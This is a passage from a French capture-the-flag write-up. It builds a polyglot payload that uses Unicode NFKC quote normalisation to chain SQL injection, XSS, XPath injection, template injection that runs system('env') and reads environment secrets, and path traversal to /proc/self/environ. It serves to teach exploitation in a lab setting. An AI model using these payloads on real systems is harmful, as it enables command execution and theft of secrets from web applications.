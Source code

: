 ```python
import unicodedata

for i in range(1000000):
    if chr(i) not in "'\"":
        if unicodedata.normalize('NFKC',chr(i)) in "'\"":
            print(chr(i),i,">>>",unicodedata.normalize('NFKC',chr(i)))
```

J'obtiens 2 caractères : **＂** et **＇**.

#### XSS + SQLi

Grâce aux caractères obtenus je peux fermer la string de la SQLi sans que cela ferme celle de la XSS 2. La quote unicode ne sera en effet pas interprété par la XSS.

On peut faire comme suit :
```
＇ UNION SELECT 1,2,flag FROM flag--＇ UNION SELECT 1,2,flag FROM flag--;<img src=x onerror=alert(flag)>';alert(flag)/*
```

Avec les 2 premières quote étant en réalité des quote unicode, ce qui donnera pour la XSS 2

```javascript
<script>const x = '＇ UNION SELECT 1,2,flag FROM flag--＇ UNION SELECT 1,2,flag FROM flag--;<img src=x onerror=alert(flag)>';alert(flag)/*'</script>
```

Si la coloration syntaxique fonctionne bien, on peut voir que toute la partie SQL + 1ère XSS est dans la chaîne de caractère.

Il ne nous reste qu'à fusionner avec notre payload totale :

```c
＇ UNION SELECT 1,2,flag FROM flag--;env;# UNION SELECT 1,2,flag FROM flag--;<img src=x onerror=alert(flag)>';alert(flag)/* "]|//user[1=1]/password/text()|//user[1="{system('env')}{*{% if '1'==1 %}{{['env']|filter('system')}}{% endif %}{{lipsum.__globals__.os.environ.FLAG}}*} <%= ENV['FLAG'] %>/../../../../../../../proc/self/environ
```

### Le Brainfuck

À ce stade il ne me reste plus que 2 étapes : Le Brainfuck et la XXE. On commence par la payload la plus courte : Le Brainfuck.
Pour être sûr qu'il n'y ai aucun problème de syntaxe, mon idée est de mettre la payload brainfuck au tout début. En effet tant que le code du début est executé, la suite le sera aussi.

Comment mettre le brainfuck au tout début sans bloquer le SQL ? En abusant encore du NFKC.
On va utiliser les fausse double quote **＂** qui n'interfererons pas avec la 1ère SQLi, ouvrirons une string dans la 2nde et surtout ne bloquerons pas la xpath (qui ne les interpretera pas non plus).

```c
＂[.>],[.,]＇ UNION SELECT 1,2,flag FROM flag--;env;#＂ UNION SELECT 1,2,flag FROM flag--;<img src=x onerror=alert(flag)>';alert(flag)/* "]|//user[1=1]/password/text()|//user[1="{system('env')}{*{% if '1'==1 %}{{['env']|filter('system')}}{% endif %}{{lipsum.__globals__.os.environ.FLAG}}*} <%= ENV['FLAG'] %>/../../../../../../proc/self/environ
```
